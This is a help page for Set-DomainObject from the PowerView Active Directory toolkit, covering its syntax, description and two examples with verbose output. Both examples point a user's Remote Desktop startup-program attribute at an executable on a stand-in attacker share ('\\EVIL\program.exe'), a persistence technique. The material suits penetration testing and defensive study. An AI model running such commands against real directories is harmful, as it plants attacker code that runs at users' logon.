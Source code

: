 # Set-DomainObject

## SYNOPSIS
Modifies a gven property for a specified active directory object.

Author: Will Schroeder (@harmj0y)  
License: BSD 3-Clause  
Required Dependencies: Get-DomainObject

## SYNTAX

```
Set-DomainObject [[-Identity] <String[]>] [-Set <Hashtable>] [-XOR <Hashtable>] [-Clear <String[]>]
 [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>]
 [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-Credential <PSCredential>]
```

## DESCRIPTION
Splats user/object targeting parameters to Get-DomainObject, returning the raw
searchresult object.
Retrieves the raw directoryentry for the object, and sets
any values from -Set @{}, XORs any values from -XOR @{}, and clears any values
from -Clear @().

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```

VERBOSE: Get-DomainSearcher search string: LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string: (&(|(samAccountName=testuser)))
VERBOSE: Setting mstsinitialprogram to \\\\EVIL\program.exe for object testuser

### -------------------------- EXAMPLE 2 --------------------------
```
"S-1-5-21-890171859-3433809279-3366196753-1108","testuser" | Set-DomainObject -Set @{'countrycode'=1234; 'mstsinitialprogram'='\\EVIL\program2.exe'} -Verbose
```

VERBOSE: Get-DomainSearcher search string: LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string:
(&(|(objectsid=S-1-5-21-890171859-3433809279-3366196753-1108)))
VERBOSE: Setting mstsinitialprogram to \\\\EVIL\program2.exe for object harmj0y
VERBOSE: Setting countrycode to 1234 for object harmj0y
VERBOSE: Get-DomainSearcher search string:
LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string: (&(|(samAccountName=testuser)))
VERBOSE: Setting mstsinitialprogram to \\\\EVIL\program2.exe for object testuser
VERBOSE: Setting countrycode to 1234 for object testuser
